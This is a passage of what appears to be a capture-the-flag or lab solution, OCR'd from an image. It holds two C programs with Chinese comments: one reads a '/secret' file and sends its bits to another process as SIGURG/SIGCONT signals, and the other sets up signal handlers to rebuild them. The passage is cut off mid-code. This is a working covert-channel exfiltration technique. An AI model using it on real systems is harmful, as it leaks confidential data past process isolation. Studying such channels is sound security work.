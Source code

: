 ```c

    rewind(fp);

    while ((fgets(txt, 1000, fp)) != NULL) {
        strcat(str, txt);
    }
    fclose(fp);
    return str;
}

int main() {
    char *p = getfileall("/secret");
    unsigned target_pid = 9;
    // wait for b?
    sleep(1);
    for (int i = 0; i < 64; i++) {
        for (int j = 0; j < 8; j++) {
            // 从每个字节的低位开始
            if (p[i] & (1 << j)) {
                // 22: SIGURG
                kill(target_pid, 22);
            } else {
                // 17: SIGCONT
                kill(target_pid, 17);
            }
            usleep(10 * 1000);
        }
    }
    return 0;
}
```

Bob:

```c
#include <ctype.h>
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int count = 0;
char buffer[512];

typedef void handler_t(int);

// 把信号处理函数更改成我们自定义的函数
// 来源：CSAPP Shell Lab
handler_t *Signal(int signum, handler_t *handler) {
    struct sigaction action;
    struct sigaction old_action;

    action.sa_handler = handler;
    sigemptyset(&action.sa_mask);
    action.sa_flags = SA_RESTART;

    sigaction(signum, &action, &old_action);
    return (old_action.sa_handler);
}

void recv(int signum) {
    if (signum == 22) {
        buffer[count++] = 1;
```
